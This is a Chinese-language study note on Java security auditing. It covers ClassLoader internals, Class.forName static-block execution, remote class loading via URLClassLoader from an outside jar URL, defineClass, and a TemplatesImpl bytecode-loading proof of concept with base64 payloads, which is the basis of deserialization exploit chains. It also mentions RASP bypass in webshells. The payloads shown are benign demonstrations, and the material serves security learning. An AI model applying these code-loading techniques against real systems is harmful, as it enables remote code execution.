


# java代码审计

> 学习资料：https://github.com/HackJava/HackJava
>
> [Java Web安全](https://www.bookstack.cn/read/anbai-inc-javaweb-sec/README.md)  一个简单的java审计教程
>
> **《Java安全漫谈》**:https://github.com/phith0n/JavaThings   主要是反射，反序列化，必看
>
> https://www.freebuf.com/column/3143 反射，反序列化，shiro，log4j，fastjson漏洞分析
>
> 
>
> https://www.cnblogs.com/nice0e3/default.html?page=1  代码审计学习，各种都有
>
> https://github.com/Firebasky/Java java安全笔记
>
> 
>
> https://sumsec.me/ codeql与代码审计
>
> java代码审计的checklist：https://xz.aliyun.com/t/3358
>
> java漏洞复现：https://github.com/threedr3am/learnjavabug
>
> 
>
> 其他
>
> jdk8历史版本 https://www.oracle.com/java/technologies/javase/javase8-archive-downloads.html

## 学习路线：

> https://4ra1n.love/post/1-Z3tp8iq/

## 代码审计基础

- 通俗的说Java代码审计就是通过审计Java代码来发现Java应用程序自身中存在的安全问题，由于Java本身是编译型语言，所以即便只有class文件的情况下我们依然可以对Java代码进行审计。对于未编译的Java源代码文件我们可以直接阅读其源码，而对于已编译的class或者jar文件我们就需要进行反编译了。
- Java代码审计其本身并无多大难度，只要熟练掌握审计流程和常见的漏洞审计技巧就可比较轻松的完成代码审计工作了。但是Java代码审计的方式绝不仅仅是使用某款审计工具扫描一下整个Java项目代码就可以完事了，一些业务逻辑和程序架构复杂的系统代码审计就非常需要审计者掌握一定的Java基础并具有具有一定的审计经验、技巧甚至是对Java架构有较深入的理解和实践才能更加深入的发现安全问题。
- 本章节讲述Java代码审计需要掌握的前置知识以及Java代码审计的流程、技巧。
- 准备环境和辅助工具

  - 在开始Java代码审计前请自行安装好Java开发环境，建议使用MacOS、Ubuntu操作系统。
  - 所谓“工欲善其事，必先利其器”，合理的使用一些辅助工具可以极大的提供我们的代码审计的效率和质量！
  - 强烈推荐下列辅助工具：
    1. `Jetbrains IDEA(IDE)`
    2. `Visual Studio Code`
    3. `codeql`
    4. 

### Java类编译与反编译基础

- 在渗透测试的时候需要审计的代码通常是 `class文件`或者 `jar包`，那么我们应该如何审计呢？让我们先来学习一下什么是Java源码和字节码。
- Java类编译与反编译基础

  - 简单的说Java源码就是未经编译的 `.java`文件，我们可以很轻松的阅读其中的代码逻辑，而字节码 `.class`文件则是 `.java`文件经过编译之后产生的字节码文件，因为 `.class`文件是编译后的二进制文件所以我们是无法直接阅读的，只能通过反编译工具将二进制文件转换成 `java代码`或者 `ASM代码`。
  - 可以使用 `hexdump -C`命令查看.class文件到底保存了什么。
- **示例代码Test.java:**

  ```java
  /**
   * @author yz
   */
  public class Test {
      public static void hello() {
          System.out.println("Hello~");
      }
      public void world() {
          System.out.println("World!");
      }
      public static void main(String[] args) {
          hello();
      }
  }
  ```
- **Test.java编译执行流程:**

  - 
- **Test.java 源码、字节码**

  - 
- 由于class文件的可读性较差，通常我们需要使用Java反编译工具来反编译代码。我们通常会使用到[JD-GUI](http://jd.benow.ca/)、[IDEA Fernflower插件](https://github.com/JetBrains/intellij-community/tree/master/plugins/java-decompiler/engine/src/org/jetbrains/java/decompiler)、[Bytecode-Viewer](https://github.com/Konloch/bytecode-viewer/releases)、[Fernflower](https://the.bytecode.club/showthread.php?tid=5)、[JAD](http://www.javadecompilers.com/jad)、[JBE](http://www.cs.ioc.ee/~ando/jbe/)、[JEB](https://www.pnfsoftware.com/jeb/manual/) 等工具来反编译class。

  其中 `JD-GUI`可能是目前反编译中使用的最多的工具了，但是个人觉得 `JD-GUI`的反编译能力远不如经过 `IDEA`(IDEA应该是使用的改版后的 `Fernflower`)，因为 `IDEA`默认支持对 `jar`和 `class`的反编译，所以我个人强烈推荐使用 `IDEA`来反编译class代码。
- 当然，反编译工具很多时候也不是万能的，`JD-GUI`经常遇到无法反编译或反编译过程中程序直接崩溃的情况，遇到这类情况我们通常可以使用 `IDEA`反编译试试，如果 `IDEA`也无法反编译可以使用 `JBE`来加载 `class文件`读取程序的字节码，如果 `JBE`仍无法读取类信息还可以使用 `JDK`自带的 `javap命令`来读取 `class类字节码`，如果上诉所有的方法都无法反编译，那么恐怕是这个类本身就存在无法编译问题要么可能就是类文件被加密处理过。可能你会说java编译的class不是说不可以加密吗？没错，这里所说的加密其实是为了保护编译后的class代码不可反编译，通过实现 `自定义ClassLoader`来 `loadClass`加密后的类方式而已,这种加密方式曾在实战中也有遇到。

## java classLoader类加载机制

### ClassLoader

- java程序是由class文件组成的一个完整应用程序，在程序运行时候，并不会一次性加载所有class文件进入内存，而是通过java的类加载机制（ClassLoader）进行动态加载，从而转换成 java.lang.Class类的一个实例。
- 当一个java文件a运行时候，调用了另外一个java文件的类，那么在该java类初始化的时候，会调用 java.lang.ClassLoader 加载类字节码，**ClassLoader会调用JVM的native 方法来定义一个 java.lang.Class实例**。

  - 
  - 所谓的Class对象，是Class类的实例，而Class类是描述所有类的，比如Person类，Student类

    - 
  - 可以看出，要创建一个实例，最关键的就是**得到对应的Class对象。**只不过对于初学者来说，new这个关键字配合构造方法，实在太好用了，底层隐藏了太多细节，一句 Person p = new Person();直接把对象返回给你了。
- 程序在启动的时候，并不会一次性加载该程序要用到的所有class文件，而是根据程序的需要，通过Java的类加载机制（ClassLoader）来动态加载某个class文件到内存当中的，从而只有class文件被载入到了内存之后，才能被其它class所引用。**所以ClassLoader就是用来动态加载class文件到内存当中用的。**

  
- 一切的Java类都必须经过JVM加载后才能运行，而 ClassLoader 的主要作用就是 Java 类的加载。但是**加载器也有很多种**，在 JVM 类加载器中**最顶层的是 Bootstrap ClassLoader(引导类加载器，该加载器实现于JVM层，采用C++编写)**、**Extension ClassLoader(扩展类加载器)**、**App ClassLoader(系统类加载器)**。系统类加载器的父类是扩展类加载器，扩展类加载器的父类是引导类加载器。

  
- **AppClassLoader是默认的类加载器**，如果类加载时我们不指定类加载器的情况下，默认会使用AppClassLoader 加载类。 ClassLoader.getSystemClassLoader() 返回的系统类加载器也是AppClassLoader。
- 值得注意的是某些时候我们获取一个类的类加载器的时候可能会返回一个null值。如：java.io.File.class.getClassLoader() 将返回一个 null 对象，因为 java.io.File 类在JVM初始化的时候会被 Bootstrap ClassLoader加载**，我们在尝试获取被BootStrap ClassLoader类加载器所加载的类的ClassLoader的时候都会返回null。**
- java类动态加载方式

  - Java类加载方式分为 **显式** 和 **隐式**。显式即我们通常使用**类Class中的ForName()**或者 **ClassLoader** 来动态加载一个类，而隐式指的是类名.方法名() 或 new 类实例。显式类加载方式也可以理解为类动态加载，我们可以自定义类加载器去加载任意的类，**类动态加载要配合反射机制一起用**。
  - 常用的类显示加载方式：

    - **Class中的ForName()**
      
      ```java
      Class<?> clazz = Class.forName("com.xxx.xxx.Test");
      Class<?> clazz = Class.forName("类名"，是否初始化类，类加载器)；
      ```
    - **Classloader加载**
      
      ```java
      Class<?> clazz = this.getClass().getClassLoader().loadClass("com.xxx.xxx.Test");
      ```

- **class.forName("类名") 默认会初始化被加载类的静态属性和类方法**，如果不希望初始化类可以使用 `Class.forName("类名"，是否初始化类，类加载器)`，而`ClassLoader.loadClass` 默认不会初始化类方法。

    - 都不会执行构造函数，那执行的是什么

    - ```java
        package cc;
        
        public class TrainPrint {
            {
                System.out.printf("Empty block initial %s\n", this.getClass());
            }
            static {
                System.out.printf("Static initial %s\n", TrainPrint.class);
            }
            public TrainPrint() {
                System.out.printf("Initial %s\n", this.getClass());
            }
        
            public static void main(String[] args) {
        
            }
        }
        
        ```

    - 其中， **static {} 就是在“类初始化”的时候调⽤的**，⽽ {} 中的代码会放在构造函数的 super() 后⾯， 但在当前构造函数内容的前⾯。 所以说， forName 中的 initialize=true 其实就是告诉Java虚拟机是否执⾏”类初始化“。

    - 那么，假设我们有如下函数，其中函数的参数name可控：

        - ```java
            public void ref(String name) throws Exception {
             Class.forName(name);
            }
            ```

        - 那么我们就直接构造一个恶意类，恶意代码卸载static{}中，然后这个类一forname初始化，就执行了恶意代码

            - ```java
                import java.lang.Runtime;
                import java.lang.Process;
                public class TouchFile {
                     static {
                         try {
                             Runtime rt = Runtime.getRuntime();
                             String[] commands = {"touch", "/tmp/success"};
                             Process pc = rt.exec(commands);
                        	 pc.waitFor();
                         } catch (Exception e) {
                         	// do nothing
                         }
                     }
                }
                ```

            - 当然，这个恶意类如何带⼊目标机器中，可能就涉及到ClassLoader的⼀些利⽤⽅法了，本⽂暂不做讨论

- **使⽤功能”.class”来创建Class对象的引⽤时，不会⾃动初始化该Class对 象，使⽤forName()会⾃动初始化该Class对象。**

### ClassLoader类加载流程

- 当ClassLoader加载com.anbai.sec.classloader.TestHelloWorld类时：
  1. ClassLoader会调用**public Class<?>  loadClass(String name)方法**加载com.anbai.sec.classloader.TestHelloWorld类。
  2. 调用**findLoadedClass方法**检查TestHelloWorld类是否已经初始化，如果JVM已初始化过该类则直接返回类对象。
  3. 如果创建当前ClassLoader时传入了特定加载器，就使用该加载器加载TestHelloWorld类，否则使用JVM的Bootstrap  ClassLoader加载。
  4. 如果上一步无法加载TestHelloWorld类，那么**调用自身的findClass方法**尝试加载TestHelloWorld类。自己写的classloader是进行这一步的
  5. 如果当前的ClassLoader没有重写了findClass方法，那么直接返回类加载失败异常。**如果当前类重写了findClass方法并通过传入的com.anbai.sec.classloader.TestHelloWorld类名找到了对应的类字节码，那么应该调用defineClass方法去JVM中注册该类。**
  6. 如果调用loadClass的时候传入的resolve参数为true，那么还需要调用resolveClass方法链接类,默认为false。
  7. **返回一个被JVM加载后的java.lang.Class类对象。**
- 综合上述步骤可知ClassLoader类有如下核心方法：
  - **loadClass：加载指定的Java类**
  - **findClass：查找指定的Java类**
  - **findLoaderClass：查找JVM已经加载过的类**
  - **defindClass：定义一个Java类,也可以理解为把这个类的字节码交给jvm，这样jvm就可以用了。**
  - **resolveClass：链接指定的Java类**。真正核心的部分其实是 defineClass ，他决定了如何将一段字节流转变成一个Java类，Java 默认的 ClassLoader#defineClass 是一个native方法，逻辑在JVM的C语言代码中。

### 自定义ClassLoader加载器

- **java.lang.ClassLoader是所有的类加载器的父类**，java.lang.ClassLoader有非常多的子类加载器，比如我们用于加载jar包的java.net.URLClassLoader其本身通过继承java.lang.ClassLoader类，重写了findClass方法从而实现了加载目录class文件甚至是远程资源文件。

- **我们只要继承了java.lang.ClassLoader类，然后重写findclass方法就可以自定义一个类加载器了。**

- 利用自定义类加载器我们可以在webshell中实现加载并调用自己编译的类对象，比如本地命令执行漏洞调用自定义类字节码的native方法绕过RASP检测（Runtime application self-protection），也可以用于加密重要的Java类字节码(只能算弱加密了)。

- 自定义ClassLoader（**看完反射机制再来看代码**）

    - ```java
        package cc;
        
        import java.lang.reflect.Method;
        public class TestClassLoader extends ClassLoader {
            // TestHelloWorld类名
            private static String testClassName = "com.anbai.sec.classloader.TestHelloWorld";
            // TestHelloWorld类字节码
            private static byte[] testClassBytes = new byte[]{
                    -54, -2, -70, -66, 0, 0, 0, 51, 0, 17, 10, 0, 4, 0, 13, 8, 0, 14, 7, 0, 15, 7, 0,
                    16, 1, 0, 6, 60, 105, 110, 105, 116, 62, 1, 0, 3, 40, 41, 86, 1, 0, 4, 67, 111, 100,
                    101, 1, 0, 15, 76, 105, 110, 101, 78, 117, 109, 98, 101, 114, 84, 97, 98, 108, 101,
                    1, 0, 5, 104, 101, 108, 108, 111, 1, 0, 20, 40, 41, 76, 106, 97, 118, 97, 47, 108,
                    97, 110, 103, 47, 83, 116, 114, 105, 110, 103, 59, 1, 0, 10, 83, 111, 117, 114, 99,
                    101, 70, 105, 108, 101, 1, 0, 19, 84, 101, 115, 116, 72, 101, 108, 108, 111, 87, 111,
                    114, 108, 100, 46, 106, 97, 118, 97, 12, 0, 5, 0, 6, 1, 0, 12, 72, 101, 108, 108, 111,
                    32, 87, 111, 114, 108, 100, 126, 1, 0, 40, 99, 111, 109, 47, 97, 110, 98, 97, 105, 47,
                    115, 101, 99, 47, 99, 108, 97, 115, 115, 108, 111, 97, 100, 101, 114, 47, 84, 101, 115,
                    116, 72, 101, 108, 108, 111, 87, 111, 114, 108, 100, 1, 0, 16, 106, 97, 118, 97, 47, 108,
                    97, 110, 103, 47, 79, 98, 106, 101, 99, 116, 0, 33, 0, 3, 0, 4, 0, 0, 0, 0, 0, 2, 0, 1,
                    0, 5, 0, 6, 0, 1, 0, 7, 0, 0, 0, 29, 0, 1, 0, 1, 0, 0, 0, 5, 42, -73, 0, 1, -79, 0, 0, 0,
                    1, 0, 8, 0, 0, 0, 6, 0, 1, 0, 0, 0, 7, 0, 1, 0, 9, 0, 10, 0, 1, 0, 7, 0, 0, 0, 27, 0, 1,
                    0, 1, 0, 0, 0, 3, 18, 2, -80, 0, 0, 0, 1, 0, 8, 0, 0, 0, 6, 0, 1, 0, 0, 0, 10, 0, 1, 0, 11,
                    0, 0, 0, 2, 0, 12
            };
            @Override
            public Class<?> findClass(String name) throws ClassNotFoundException {
                // 只处理TestHelloWorld类
                if (name.equals(testClassName)) {
                    // 调用JVM的native方法定义TestHelloWorld类
                    return defineClass(testClassName, testClassBytes, 0, testClassBytes.length);
                }
                return super.findClass(name);
            }
            public static void main(String[] args) {
                // 创建自定义的类加载器
                TestClassLoader loader = new TestClassLoader();
                try {
                    // 使用自定义的类加载器加载TestHelloWorld类
                    Class testClass = loader.loadClass(testClassName);
                    // 反射创建TestHelloWorld类，等价于 TestHelloWorld t = new TestHelloWorld();
                    Object testInstance = testClass.newInstance();
                    // 反射获取hello方法
                    Method method = testInstance.getClass().getMethod("hello");
                    // 反射调用hello方法,等价于 String str = t.hello();
                    String str = (String) method.invoke(testInstance);
                    System.out.println(str);
                } catch (Exception e) {
                    e.printStackTrace();
                }
            }
        }
        ```

- 

## 动态加载字节码

我们上面已经介绍了类加载器是怎么加载class文件的。我们现在想自己加载字节码。在后面的反序列漏洞，fastjson都会利用到。

### URLClassLoader

- URLClassLoader继承了ClassLoader，URLClassLoader提供了加载远程资源的能力，在写漏洞利用的payload或者webshell的时候我们可以使用这个特性来加载远程的jar来实现远程的类方法调用。

- 正常情况下，Java会根据配置项 `sun.boot.class.path` 和 `java.class.path` 中列举到的基础路径（这 些路径是经过处理后的 java.net.URL 类）来寻找.class文件来加载，而这个基础路径有分为三种情况：

    - URL未以斜杠 / 结尾，则认为是一个JAR文件，使用 `JarLoader` 来寻找类，即为在Jar包中寻 找.class文件 
    - URL以斜杠 / 结尾，且协议名是 file ，则使用 `FileLoader` 来寻找类，即为在本地文件系统中寻 找.class文件
    - URL以斜杠 / 结尾，且协议名不是 file ，则使用最基础的 `Loader` 来寻找类 

- 我们正常开发的时候通常遇到的是前两者，那什么时候才会出现使用 Loader 寻找类的情况呢？当然是 非 file 协议的情况下，最常见的就是 http 协议。

    > 这里其实会涉及到一个问题：“Java的URL究竟支持哪些协议”，但这并不是本文的重点，以后我们 肯定会在SSRF相关的章节中说到，所以这里就不深入研究了。

- 我们可以使用HTTP协议来测试一下，看Java是否能从远程HTTP服务器上加载.class文件：

    - ```java
        import java.net.URL;
        import java.net.URLClassLoader;
        public class HelloClassLoader
        {
            public static void main( String[] args ) throws Exception
            {
                URL[] urls = {new URL("http://localhost:8000/")};
                URLClassLoader loader = URLClassLoader.newInstance(urls);
                Class c = loader.loadClass("Hello");
                c.newInstance();
            }
        }
        ```

    - 我们编译一个简单的HelloWorld程序，放在 http://localhost:8080/Helloworld.class ：

        - ```java
            public class HelloWorld {
                public HelloWorld(){
                    System.out.println("Hello,World");
                }
            }
            ```

    - 成功请求到我们的 /Helloworld.class 文件，并执行了文件里的字节码，输出了"Hello World"。 所以，作为攻击者，如果我们能够控制目标Java ClassLoader的基础路径为一个http服务器，则可以利 用远程加载的方式执行任意代码了。

- jar中加载class示例

    ```java
    package test;
    import java.io.ByteArrayOutputStream;
    import java.io.InputStream;
    import java.net.URL;
    import java.net.URLClassLoader;
    /**
        * Creator: yz
        * Date: 2019/12/18
        */
    public class TestURLClassLoader {
        public static void main(String[] args) {
            try {
                // 定义远程加载的jar路径
                URL url = new URL("https://javaweb.org/tools/cmd.jar");
                // 创建URLClassLoader对象，并加载远程jar包
                URLClassLoader ucl = new URLClassLoader(new URL[]{url});
                // 定义需要执行的系统命令
                String cmd = "calc.exe";
                // 通过URLClassLoader加载远程jar包中的CMD类
                Class cmdClass = ucl.loadClass("CMD");
                // 调用CMD类中的exec方法，等价于: Process process = CMD.exec("calc.exe");
                Process process = (Process) cmdClass.getMethod("exec", String.class).invoke(null, cmd);
                // 获取命令执行结果的输入流
                InputStream           in   = process.getInputStream();
                ByteArrayOutputStream baos = new ByteArrayOutputStream();
                byte[]                b    = new byte[1024];
                int                   a    = -1;
                // 读取命令执行结果
                while ((a = in.read(b)) != -1) {
                    baos.write(b, 0, a);
                }
                // 输出命令执行结果
                System.out.println(baos.toString());
            } catch (Exception e) {
                e.printStackTrace();
            }
        }
    }
    ```

    - 执行结果，弹出计算器。

    - 远程的cmd.jar中就一个CMD.class文件，对应的编译之前的代码片段如下：

        - ```java
            import java.io.IOException;
            /**
            * Creator: yz
            * Date: 2019/12/18
            */
            public class CMD {
            	public static Process exec(String cmd) throws IOException {
            		return Runtime.getRuntime().exec(cmd);
            	}
            }
            
            ```


### 利用ClassLoader#defineClass直接加载字节码

- 我们上面学了怎么自定义ClassLoader。真正核心的部分其实是 defineClass ，他决定了如何将一段字节流转变成一个Java类，Java 默认的 ClassLoader#defineClass 是一个native方法，逻辑在JVM的C语言代码中。
-  我们可以编写一个简单的代码，来演示如何让系统的 defineClass 来直接加载字节码：

    - ```java
        import java.lang.reflect.Method;
        import java.util.Base64;
        
        public class HelloDefineClass {
            public static void main(String[] args) throws Exception {
                Method defineClass = ClassLoader.class.getDeclaredMethod("defineClass", String.class, byte[].class, int.class, int.class);
                defineClass.setAccessible(true);
                byte[] code = Base64.getDecoder().decode("yv66vgAAADQAGwoABgANCQAOAA8IABAKABEAEgcAEwcAFAEABjxpbml0PgEAAygpVgEABENvZGUBAA9MaW5lTnVtYmVyVGFibGUBAApTb3VyY2VGaWxlAQAKSGVsbG8uamF2YQwABwAIBwAVDAAWABcBAAtIZWxsbyBXb3JsZAcAGAwAGQAaAQAFSGVsbG8BABBqYXZhL2xhbmcvT2JqZWN0AQAQamF2YS9sYW5nL1N5c3RlbQEAA291dAEAFUxqYXZhL2lvL1ByaW50U3RyZWFtOwEAE2phdmEvaW8vUHJpbnRTdHJlYW0BAAdwcmludGxuAQAVKExqYXZhL2xhbmcvU3RyaW5nOylWACEABQAGAAAAAAABAAEABwAIAAEACQAAAC0AAgABAAAADSq3AAGyAAISA7YABLEAAAABAAoAAAAOAAMAAAACAAQABAAMAAUAAQALAAAAAgAM");
                Class hello = (Class) defineClass.invoke(ClassLoader.getSystemClassLoader(), "Hello", code, 0, code.length);
                hello.newInstance();
            }
        ```
    - 注意一点，在 defineClass 被调用的时候，类对象是不会被初始化的，只有这个对象显式地调用其构造 函数，初始化代码才能被执行。而且，即使我们将初始化代码放在类的static块中（在本系列文章第一篇 中进行过说明），在 defineClass 时也无法被直接调用到。**所以，如果我们要使用 defineClass 在目标机器上执行任意代码，需要想办法调用构造函数。**

- 执行上述example，输出了Hello World：
- 这里，因为系统的 `ClassLoader#defineClass` 是一个保护属性，所以我们无法直接在外部访问，不得 不使用反射的形式来调用。 在实际场景中，因为defineClass方法作用域是不开放的，所以攻击者很少能直接利用到它，但它却是我 们常用的一个攻击链 TemplatesImpl 的基石。

### 利用TemplatesImpl加载字节码

> 注意，TemplatesImpl 中对加载的字节码是有一定要求的：这个字节码对应的类必须 是 `com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet` 的子类。

- 虽然大部分上层开发者不会直接使用到defineClass方法，但是Java底层还是有一些类用到了它（否则他也没存在的价值了对吧），这就是 `TemplatesImpl`(模板实现类) 。 `com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl` 这个类中定义了一个内部类 `TransletClassLoader` ：

    - ```java
            static final class TransletClassLoader extends ClassLoader {
                private final Map<String,Class> _loadedExternalExtensionFunctions;
        
                 TransletClassLoader(ClassLoader parent) {
                     super(parent);
                    _loadedExternalExtensionFunctions = null;
                }
        
                TransletClassLoader(ClassLoader parent,Map<String, Class> mapEF) {
                    super(parent);
                    _loadedExternalExtensionFunctions = mapEF;
                }
        
                public Class<?> loadClass(String name) throws ClassNotFoundException {
                    Class<?> ret = null;
                    // The _loadedExternalExtensionFunctions will be empty when the
                    // SecurityManager is not set and the FSP is turned off
                    if (_loadedExternalExtensionFunctions != null) {
                        ret = _loadedExternalExtensionFunctions.get(name);
                    }
                    if (ret == null) {
                        ret = super.loadClass(name);
                    }
                    return ret;
                 }
        
                /**
                 * Access to final protected superclass member from outer class.
                 */
                Class defineClass(final byte[] b) {
                    return defineClass(null, b, 0, b.length);
                }
            }
        
        ```

- 这个类里重写了 defineClass 方法，并且这里没有显式地声明其定义域。Java中默认情况下，如果一个 方法没有显式声明作用域，其作用域为default。**所以也就是说这里的 defineClass 由其父类的 protected类型变成了一个default类型的方法，可以被类外部调用。**

- 我们从 TransletClassLoader#defineClass() 向前追溯一下调用链：

    - ```java
        TemplatesImpl#getOutputProperties() -> TemplatesImpl#newTransformer() ->
        TemplatesImpl#getTransletInstance() -> TemplatesImpl#defineTransletClasses()
        -> TransletClassLoader#defineClass()
        ```

    - 显示调用了字节码的类的构造函数的代码在`getTransletInstance()`函数里面

        - ```java
            // The translet needs to keep a reference to all its auxiliary
            // class to prevent the GC from collecting them
            AbstractTranslet translet = (AbstractTranslet) _class[_transletIndex].newInstance();
            ```

- 追到最前面两个方法 `TemplatesImpl#getOutputProperties()` 、 `TemplatesImpl#newTransformer()` ，这两者的作用域是public，可以被外部调用。我们尝试用 newTransformer() 构造一个简单的POC：

    - ```java
        package cc;
        
        import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
        import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
        
        import java.lang.reflect.Field;
        import java.util.Base64;
        
        public class HelloDefineClass {
            public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception {
                Field field = obj.getClass().getDeclaredField(fieldName);
                field.setAccessible(true);
                field.set(obj, value);
            }
            public static void main(String[] args) throws Exception {
        
                byte[] code = Base64.getDecoder().decode("yv66vgAAADQAIQoABgASCQATABQIABUKABYAFwcAGAcAGQEACXRyYW5zZm9ybQEAcihMY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL0RPTTtbTGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvc2VyaWFsaXplci9TZXJpYWxpemF0aW9uSGFuZGxlcjspVgEABENvZGUBAA9MaW5lTnVtYmVyVGFibGUBAApFeGNlcHRpb25zBwAaAQCmKExjb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvRE9NO0xjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFsL2R0bS9EVE1BeGlzSXRlcmF0b3I7TGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvc2VyaWFsaXplci9TZXJpYWxpemF0aW9uSGFuZGxlcjspVgEABjxpbml0PgEAAygpVgEAClNvdXJjZUZpbGUBABdIZWxsb1RlbXBsYXRlc0ltcGwuamF2YQwADgAPBwAbDAAcAB0BABNIZWxsbyBUZW1wbGF0ZXNJbXBsBwAeDAAfACABABJIZWxsb1RlbXBsYXRlc0ltcGwBAEBjb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvcnVudGltZS9BYnN0cmFjdFRyYW5zbGV0AQA5Y29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL1RyYW5zbGV0RXhjZXB0aW9uAQAQamF2YS9sYW5nL1N5c3RlbQEAA291dAEAFUxqYXZhL2lvL1ByaW50U3RyZWFtOwEAE2phdmEvaW8vUHJpbnRTdHJlYW0BAAdwcmludGxuAQAVKExqYXZhL2xhbmcvU3RyaW5nOylWACEABQAGAAAAAAADAAEABwAIAAIACQAAABkAAAADAAAAAbEAAAABAAoAAAAGAAEAAAAKAAsAAAAEAAEADAABAAcADQACAAkAAAAZAAAABAAAAAGxAAAAAQAKAAAABgABAAAADAALAAAABAABAAwAAQAOAA8AAQAJAAAALQACAAEAAAANKrcAAbIAAhIDtgAEsQAAAAEACgAAAA4AAwAAAA4ABAAPAAwAEAABABAAAAACABE=");
                TemplatesImpl obj = new TemplatesImpl();
                setFieldValue(obj, "_bytecodes", new byte[][] {code});
                setFieldValue(obj, "_name", "HelloTemplatesImpl");
                setFieldValue(obj, "_tfactory", new TransformerFactoryImpl());
                obj.newTransformer();
        
            }
        }
        
        ```

    - 

- 其中， `setFieldValue` 方法用来设置私有属性，可见，这里我设置了三个属性： _bytecodes 、 _name 和 _tfactory 。

    -  `_bytecodes 是由字节码组成的数组；`，也就是最后传入defneClass的字节码
    -  _name 可以是任意字符串，只要不为null即可； 
    - _tfactory 需要是一个 TransformerFactoryImpl 对象，因为 `TemplatesImpl#defineTransletClasses()` 方法里有调用到 `_tfactory.getExternalExtensionsMap()` ，如果是null会出错。 

- 另外，值得注意的是， **TemplatesImpl 中对加载的字节码是有一定要求的：这个字节码对应的类必须 是 `com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet` 的子类。**

- 所以，我们需要构造一个特殊的类：

    - ```java
        import com.sun.org.apache.xalan.internal.xsltc.DOM;
        import com.sun.org.apache.xalan.internal.xsltc.TransletException;
        import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
        import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
        import com.sun.org.apache.xml.internal.serializer.SerializationHandler;
        
        public class HelloTemplatesImpl extends AbstractTranslet {
        
            public void transform(DOM document, SerializationHandler[] handlers)
            throws TransletException {}
                public void transform(DOM document, DTMAxisIterator iterator,
                SerializationHandler handler) throws TransletException {}
                public HelloTemplatesImpl() {
                    super();
                    System.out.println("Hello TemplatesImpl");
                    }
                }
        }
        ```

        - base64编码这个文件

            - ```java
                import java.util.Base64;
                
                public class BaseDemo {
                    public static void main(String[] args) throws IOException {
                        InputStream fileInputStream = new FileInputStream(new File("D:\\code\\java code\\java_sec\\se_sec\\HelloTemplatesImpl.class"));
                            BufferedInputStream buf = new BufferedInputStream(fileInputStream);
                            ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
                            int len;
                            byte [] bytes = new byte[1024];
                            while ((len=buf.read(bytes))!=-1){
